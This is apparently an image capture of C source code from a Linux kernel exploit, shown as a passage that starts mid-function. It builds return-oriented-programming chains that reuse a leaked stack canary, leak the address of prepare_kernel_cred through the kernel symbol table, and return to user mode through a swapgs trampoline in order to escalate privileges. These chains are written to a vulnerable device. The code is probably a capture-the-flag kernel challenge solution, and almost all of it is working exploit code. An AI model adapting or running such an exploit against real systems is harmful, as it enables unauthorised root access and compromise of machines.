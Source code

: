 ```c

    unsigned long user_rip = (unsigned long) call_prepare_kernel_cred;
    
    /* rop */
    unsigned long rop[50];
    int off = (0xa0 - 0x20) / sizeof(unsigned long);
    rop[off++] = canary; // 0x20
    rop[off++] = 0; // 0x18
    rop[off++] = 0; // 0x10
    rop[off++] = 0; // 0x08
    rop[off++] = pop_rax_ret;
    rop[off++] = __ksymtab_prepare_kernel_cred;
    rop[off++] = read_rax_pop_rbp_ret;
    rop[off++] = 0;
    rop[off++] = swapgs_restore_regs_and_return_to_usermode + 0x16;
    rop[off++] = 0;
    rop[off++] = 0;
    rop[off++] = user_rip;
    rop[off++] = user_cs;
    rop[off++] = user_rflags;
    rop[off++] = user_sp;
    rop[off++] = user_ss;

    if (write(devfd, rop, sizeof(rop)) < 0)
        perror("[-] write dev failed");
    puts("[+] leak prepare_kernel_cred");
}

void call_prepare_kernel_cred()
{
    __asm__ volatile(
        ".intel_syntax noprefix \n"
        "mov tmp, rax \n"
        ".att_syntax \n"
    );
    prepare_kernel_cred = (int) tmp + __ksymtab_prepare_kernel_cred;

    unsigned long user_rip = (unsigned long) call_commit_creds;
    
    /* rop */
    unsigned long rop[50];
    int off = (0xa0 - 0x20) / sizeof(unsigned long);
    rop[off++] = canary; // 0x20
    rop[off++] = 0; // 0x18
    rop[off++] = 0; // 0x10
    rop[off++] = 0; // 0x08
    rop[off++] = pop_rdi_ret;
    rop[off++] = 0;
    rop[off++] = prepare_kernel_cred;
    rop[off++] = swapgs_restore_regs_and_return_to_usermode + 0x16;
    rop[off++] = 0;
    rop[off++] = 0;
    rop[off++] = user_rip;
    rop[off++] = user_cs;
    rop[off++] = user_rflags;
    rop[off++] = user_sp;
    rop[off++] = user_ss;

    if (write(devfd, rop, sizeof(rop)) < 0)
        perror("[-] write dev failed");
    puts("[+] leak prepare_kernel_cred");
}

```